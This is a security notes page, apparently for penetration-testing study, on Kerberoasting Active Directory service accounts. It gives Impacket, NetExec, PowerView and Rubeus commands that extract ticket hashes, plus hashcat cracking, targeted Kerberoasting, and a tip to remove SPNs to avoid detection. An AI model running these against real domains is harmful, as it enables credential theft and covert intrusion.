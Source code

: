 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Kerberoasting

## Concept

**Kerberoasting** is an attack on the **Service Ticket (ST)** and **Service Principal Names (SPNs)**. [SPNs](../recon.md#spns) are unique IDs that Kerberos uses to map a service instance, for example MySQL, to a service sign-in account, such as `svc_mysql`, in whose, often privileged, context the service is running. The ST is encrypted with the service's account NTLM hash, so it can potentially be cracked. **Any domain user can request a ST from the DC for any SPN account**.

> _Accounts like `krbtgt`, **computer accounts**, and **(g)MSAs** are usually resistant due to complex, long passwords._

<figure><img src="../../../.gitbook/assets/kerberoasting_process (1).png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

> _Typically,_ [_Kerberoasting_](kerberoasting.md) _happens after compromising a domain user. However, according to_ [_new research_](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/)_, it is possible to perform this attack with an account susceptible to ASREPRoast (for an example of this check_ [_Rebound_](../../../boxes/insane/rebound.md#kerberoasting)_)._

## Attack

{% tabs %}
{% tab title="Linux" %}
We can check if an account has an SPN using [PowerView](../../../tools/active-directory/powerview.md).

```bash
# Confirm that the target account has SPN
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

> If time sync errors occur, i.e., `KRB_AP_ERR_SKEW(Clock skew too great)` :
>
> ```bash
> sudo ntpdate 192.168.50.70
> ```

Then we can proceed to Kerberoast the target account with [NetExec](../../../tools/active-directory/netexec.md) or [Impacket](../../../tools/active-directory/impacket.md)'s `GetUserSPNs`.

{% code overflow="wrap" %}
```bash
# Kerberoast the target account with NetExec
nxc ldap 192.168.0.104 -u user -p pass --kerberoasting output.txt

# Kerberoast the target account with Impacket's GetUserSPNs
impacket-GetUserSPNs -dc-ip 172.16.5.5 DOMAIN/user -request -outputfile spns.lst

# Kerberoast an account susceptible to ASREPRoasting with Impacket's GetUserSPNs
impacket-GetUserSPNs -no-preauth jjones -usersfile dom_users -dc-host 10.10.11.231 rebound.htb/ -outputfile kerb.txt
```
{% endcode %}

> _For an example of Kerberoasting with NetExec check_ [_here_](https://x7331.gitbook.io/boxes/boxes/boxes/easy/active#eop-via-kerberoasting)_._

Finally, we can crack the hashes using [`hashcat`](../../../tools/passwords/hashcat.md).

{% code overflow="wrap" %}
```bash
sudo hashcat -m 13100 hashes.kerberoast rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
We can check if an account has an SPN using [PowerView](../../../tools/active-directory/powerview.md) or [Rubeus](../../../tools/active-directory/rubeus.md).

```powershell
# Confirm that the target account has SPN with PowerView
Get-DomainUser 'sqldev' | Select serviceprincipalname
# Enumerate all user-linked SPNs and extract TGS-REP hashes with Rubeus
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

Then we can proceed to Kerberoast the target account with [PowerView](../../../tools/active-directory/powerview.md) or [Rubeus](../../../tools/active-directory/rubeus.md).

{% code overflow="wrap" %}
```powershell
# Kerberoast the target account with PowerView
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

# Kerberoast the target account with Rubeus
.\Rubeus.exe kerberoast /creduser:domain\user1 /credpassword:pass /user:targetUser /outfile:hash.txt /format:hashcat /nowrap

# Kerberoast an account susceptible to ASREPRoasting with Rubeus
.\Rubeus.exe kerberoast /domain:<domain> /dc:<ip> /nopreauth:<user> /spns:<username-list>
```
{% endcode %}

> _For an example of Kerberoasting with Rubeus check_ [_here_](https://x7331.gitbook.io/boxes/boxes/boxes/insane/sizzle#path-to-victory)_._

Finally, we can crack the hashes on our attacking machine using [`hashcat`](../../../tools/passwords/hashcat.md).

{% code overflow="wrap" %}
```bash
sudo hashcat -m 13100 hashes.kerberoast rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}

Optionally, we can clear the SPNs of the target account.

```powershell
# Clear the SPNs of the target account
Set-DomainObject -Identity sqldev -Clear serviceprincipalname
```
{% endtab %}
{% endtabs %}

## Targeted Kerberoasting

If we have `GenericWrite` or `GenericAll` on a user object, we can set an SPN on that user account and then extract and crack the TGS. This attack can be performed with [`targetedKerberoast.py`](https://github.com/ShutdownRepo/targetedKerberoast).&#x20;

> _Remember to clean up by removing the SPN afterward to avoid detection!_

```bash
targetedKerberoast.py -v -d <DOMAIN_FQDN> -u <USER> -p <PASSWORD>
```

## Resources

{% tabs %}
{% tab title="Demo" %}
{% embed url="https://www.youtube.com/watch?v=-3MxoxdzFNI" %}
Kerberoasting in 14 minutes!
{% endembed %}
{% endtab %}

{% tab title="GetUserSPNs" %}
{% embed url="https://www.youtube.com/watch?v=xH5T9-m9QXw" %}
How GetUserSPNs script work behind the scenes!
{% endembed %}
{% endtab %}

{% tab title="Lecture" %}
{% embed url="https://www.youtube.com/watch?v=Jaa2LmZaNeU" %}
{% endtab %}

{% tab title="Article" %}
{% embed url="https://adsecurity.org/?p=3458" %}
A great article detailing the Kerberoasting process.
{% endembed %}
{% endtab %}

{% tab title="targetedKerberoast" %}
{% embed url="https://github.com/ShutdownRepo/targetedKerberoast" %}
{% endtab %}
{% endtabs %}
